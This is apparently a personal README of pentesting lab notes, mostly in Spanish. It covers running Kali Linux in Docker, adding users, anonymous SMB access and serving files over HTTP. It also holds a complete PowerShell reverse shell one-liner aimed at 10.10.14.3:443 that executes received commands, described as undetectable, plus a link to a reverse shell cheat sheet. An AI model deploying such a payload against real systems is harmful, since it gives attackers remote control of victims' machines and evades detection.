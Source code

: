 # kali_docker
Manual para usar kali con docker en una maquina con servidor x11
```console
~$ docker run -it --cap-add NET_ADMIN  --privileged --net=host --env="DISPLAY" --volume="$XAUTHORITY:/root/.Xauthority:rw" -v $(pwd):/home kalilinux/kali-rolling
```
## Agregar un usuario no root
Dentro del contendor de kali
```console
~#adduser username
```
Y agregarlo a grupo sudo
```console
~# usermod -aG sudo username
``` 
Para tener una consola bonita usar el comando `su` con el argumento `-s /bin/bash`
```console
~# su -s /bin/bash username
```
Otra opción es modificar el archivo `etc/passwd` y modificar el shell por defecto del usuario 
```
username:x:1000:1000::/home/rodrigo:/bin/bash
```

## Uso de SMB Client

```console
smbclient  -N \\\\10.10.10.27\\carpeta -U rodrigo 
```
Once logged you can use `ls` command to list de diretories and `get` to copy a file to your local machine.

## Reverse Shell
In this link there is a ReverseShell CheatSheet

[Reverse Shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)


This is an example of a windows shell script that it's not detectable as malicious 
```shell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## cat - type
`type` is the windows equivalent linux `cat` command

## Quikly mount http server
Use the command
```console
python3 -m http.server 80
```
It will mount an http server listening on the port 80, and it  will serve any file in the current working directory

